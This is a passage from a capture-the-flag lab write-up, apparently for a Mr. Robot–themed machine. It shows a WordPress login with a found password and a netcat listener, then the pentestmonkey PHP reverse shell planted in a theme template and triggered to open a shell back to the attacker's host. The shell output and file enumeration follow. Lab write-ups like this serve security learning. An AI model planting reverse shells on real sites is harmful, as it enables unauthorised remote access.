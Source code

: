 **Findings:**

I found that the password of the login is `ER28-0652` . u know if u watch the mr.robot series its acutally elliots employee id at AllSafe.

After logining in in wordpress im inside wordpress dashboard under the user Elliot Alderson

### 3. Post-Exploitation

### Step 3.1: PHP Reverse Shell

now that i got access to the admin, I'm gonna the editor option under Appearance section

So, for the php reverse shell to work without too much traffics i'm using the Archive template for better result.

To get a connection from the target machine i started a listener at port `53`

**command:** `rlwrap nc -lvnp 53`

I'm using `rlwrap` because it allows me to edit the upcoming connections.

while netcat is watiing for the connection to estabilish i'm sourcing PHP Reverse Shell Script from a github repository called pentestmonkey.
[PHP-Reverse-Shell-pentestmonkey](https://github.com/pentestmonkey/php-reverse-shell/blob/master/php-reverse-shell.php)

I copied the code and pasted it inside the `archive.php` template in which i changed the `host ip address` and the `port` i want to listen from.

To establish a connection with `netcat` im firing up `archive.php` site `http://10.10.159.27/wp-content/themes/twentyfifteen/archive.php`

once i started the site, at my terminal my listener had estabished a connection to the server

```
┌──(kali㉿kali)-[~/AJOY]
└─$ rlwrap nc -lvnp 53 
listening on [any] 53 ...
connect to [10.17.105.111] from (UNKNOWN) [10.10.159.27] 38786
Linux linux 3.13.0-55-generic #94-Ubuntu SMP Thu Jun 18 00:27:10 UTC 2015 x86_64 x86_64 x86_64 GNU/Linux
 15:18:06 up  1:44,  0 users,  load average: 0.08, 0.08, 0.46
USER     TTY      FROM             LOGIN@   IDLE   JCPU   PCPU WHAT
uid=1(daemon) gid=1(daemon) groups=1(daemon)
/bin/sh: 0: can't access tty; job control turned off
$
```

After getting access to the target machine i browers thourgh the folders and found two entires `key-2-of-3.txt` and `password.raw-md5` 

i found the next `key` inside `/robot/key-2-of-3.txt`, but when tried to open `key-2-of-3.txt` using `cat` command i was denied from it.

To check why this happend, i used `ls -lsa` to check in which user the file is accessiable, and found it was under a user named robot
```
$ ls -lsa
total 16
4 drwxr-xr-x 2 root  root  4096 Nov 13  2015 .
4 drwxr-xr-x 3 root  root  4096 Nov 13  2015 ..
4 -r-------- 1 robot robot   33 Nov 13  2015 key-2-of-3.txt
4 -rw-r--r-- 1 robot robot   39 Nov 13  2015 password.raw-md5
```
